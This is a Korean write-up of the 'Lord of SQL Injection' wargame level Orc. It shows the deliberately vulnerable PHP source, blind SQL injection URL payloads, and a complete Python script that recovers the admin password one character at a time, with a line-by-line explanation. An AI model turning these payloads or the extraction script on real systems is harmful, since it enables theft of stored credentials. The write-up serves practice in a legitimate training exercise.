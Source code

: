# Lord of SQL Injection No.4 Orc

Orc 문제는 Blind SQL Injection을 통해서 DB의 pw 값을 추출해낼 수 있도록 유도한 문제이다.

## 소스 코드
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello admin</h2>"; 
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc"); 
  highlight_file(__FILE__); 
?>
```

#### 문제 풀이 조건
```sql
select id from prob_orc where id='admin' and pw='{$_GET[pw]}'";
```
```php
...
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc");
...
```
위의 코드를 보면 알 수 있듯이 `Database`의 `pw`값과 `GET` 방식으로 받은 `pw`값이 같으면 문제풀이에 성공하게 된다.
이는 URL에 직접 삽입하여 SQL을 조작하여 푸는 방식이 아니라 직접 `Database`에 있는 `pw`값을 추출 해야한다는 것을 알 수 있다.

`pw`값을 알아내는 데에 사용하려면 `Blind SQL Injection` 을 이용해야한다.

## Blind SQL Injection 알아보기

* [Hacker School - Blind SQL Injection 공격](http://www.hackerschool.org/HS_Boards/data/Lib_share/The_basic_of_Blind_SQL_Injection_PRIDE.pdf)
* [Wikipedia - SQL 삽입 // Blind SQL Injection](https://ko.wikipedia.org/wiki/SQL_%EC%82%BD%EC%9E%85#Blind_SQL_.EC.82.BD.EC.9E.85)

## Solution
```
http://los.eagle-jump.org/orc_***.php?pw=' or length(pw)=8 -- ;
```
URL에 length(pw)=8이 참이 되기 때문에 사이트에서는 `Hello Admin`을 출력한다.
그리고 `Database`의 `pw`는 8자리라는 것을 알 수 있다.

`pw`값의 길이를 알아낸 후 Blind SQL Injection 공격을 하기 위해서 `Python`을 준비한다.
(필자는 Python3를 사용하였습니다.)

```python
import urllib.request
from urllib.parse import quote

result = ""
pwlen = 0

for i in range(1,10):
    url = "http://los.eagle-jump.org/orc_47190a4d33f675a601f8def32df2583a.php?pw="
    add_url = "' or length(pw)={} -- ;".format(i)
    print("Searching Password Length.. [{}]".format(i))
    add_url = quote(add_url)
    new_url = url + add_url
    re = urllib.request.Request(new_url)
    re.add_header("User-Agent","Mozilla/5.0")
    re.add_header("Cookie", "PHPSESSID=6d7n06fn55kjoc4fas5vuh24j4")
    response = urllib.request.urlopen(re)

    if str(response.read()).find("Hello admin") != -1:
        pwlen = i
        print("Found length!! => {}".format(pwlen))
        break

for i in range(1,pwlen+1):
    for j in range(ord('0'),ord('z')):
        url = "http://los.eagle-jump.org/orc_47190a4d33f675a601f8def32df2583a.php?pw="
        add_url = "' or id='admin' and substr(pw,1,{})='{}' -- ;".format(str(i), result+chr(j))
        print("Searching.. - {0}{1}".format(url, add_url))
        add_url = quote(add_url)
        new_url = url + add_url
        re = urllib.request.Request(new_url)

        re.add_header("User-Agent","Mozilla/5.0")
        re.add_header("Cookie", "PHPSESSID=6d7n06fn55kjoc4fas5vuh24j4")

        res = urllib.request.urlopen(re)

        if str(res.read()).find("Hello admin") != -1:
            result += chr(j).lower()
            print("Found it!! => " + result)
            break

print("Finished Searching.")
print("Password : " + result)
```

위의 `Python3` 코드는 `Database`에 있는 `pw`를 모두 알아낼 때까지 `for`문을 반복하는 형태이다.

```python
for i in range(1,9):
```
`for`문을 8번(비밀번호 길이) 반복한다는 의미이다.
비밀번호의 길이를 `length` 함수 대입으로 알아내기 힘들다면 `Python` 코드에 비밀번호의 길이를 찾는 코드를 추가하여 대체할 수 있다.

```python
  for j in range(ord('0'),ord('z')):
```
`for`문을 `ASCII`값으로 0부터 z까지 반복한다는 의미이다.
* `ASCII 0` = 48
* `ASCII z` = 122

#### ord

ord 함수는 특정 문자를 `ASCII` 값으로 변환하는 함수이다.

* [php.net - ord 함수](http://php.net/manual/kr/function.ord.php)

```python
  url = "http://los.eagle-jump.org/orc_47190a4d33f675a601f8def32df2583a.php?pw="
```
`Python` 코드를 실행하면서 고정되어 있는 URL을 나타낸다.

```python
  add_url = "' or id='admin' and substr(pw,1,{})='{}' -- ;".format(str(i), result+chr(j))
```
고정된 URL 뒤에 붙을 URL의 일부분을 담은 코드이다.
반복 수행을 하기 위해서는 위의 부분은 항상 유동적으로 변해야하기 때문에 `for`문의 i와 j를 이용하여 대입하는 방식으로 설계되었다.

#### .format

```c
...
  printf("%d", num);
...
```
`format` 함수는 C언어에서 num을 대입하는 것과 같은 형식으로 {} 안에 `format` 뒤에 나오는 값을 매칭시켜 대입할 때에 사용된다.

* [Programmers.co.kr - format 함수](https://programmers.co.kr/learn/courses/%ED%8C%8C%EC%9D%B4%EC%8D%AC-%EC%9E%85%EB%AC%B8/lessons/format)

```python
print("Searching.. - {0}{1}".format(url, add_url))
```
반복문이 돌 때마다 URL을 출력시킨다.

`format` 함수는 {} 안에 숫자를 대입하여 순서를 임의로 지정해줄 수 있다.

```python
add_url = quote(add_url)
```
`quote` 함수에 `add_url` (URL에서 유동적인 부분)을 넣어 `URL Encording`을 수행한다.

```python
new_url = url + add_url
re = urllib.request.Request(new_url)
```
`url` (URL에서 고정되는 부분)과 `add_url` (URL에서 유동적인 부분)을 합쳐 한 줄의 URL을 `new_url`에 저장한다.

```python
import urllib.request
```
위의 `urllib.request` 모듈에서 `Request`라는 클래스를 통해 객체를 생성한다.

```python
re.add_header("User-Agent","Mozilla/5.0")
re.add_header("Cookie", "PHPSESSID=6d7n06fn55kjoc4fas5vuh24j4")
```
`User-Agent`와 `PHPSESSID` 를 `re` 객체의 header에 추가한다.

```python
res = urllib.request.urlopen(re)
```
`re` 객체를 이용하여 서버에 요청을 한다.

```python
if str(res.read()).find("Hello admin") != -1:
  result += chr(j).lower()
  print("Found it!! => " + result)
  break
```
`res.read()`를 통해 객체에서 `Hello admin` 이라는 문자열을 찾은 경우에 `find` 함수에서 문자열의 시작 인덱스를 반환한다. 만약 문자열을 찾지 못했을 경우에는 -1을 반환한다.

`Hello admin`을 찾은 경우에는 `result`라는 변수에 아스키 코드로 j에 해당하는 문자를 붙인 후 현재까지 찾은 `result`를 출력하고 반복문을 탈출한다.

```python
print("Finished Searching.")
print("Password : " + result)
```

반복문이 종료되면 `result`의 값과 `Database`에 있는 `pw`값이 일치하므로 문제 풀이를 위한 `pw`값을 찾아낼 수 있다.

```
http://los.eagle-jump.org/orc_***.php?pw=295d5844
```
pw = 295d5844를 URL에 삽입하면 문제 풀이에 성공한다.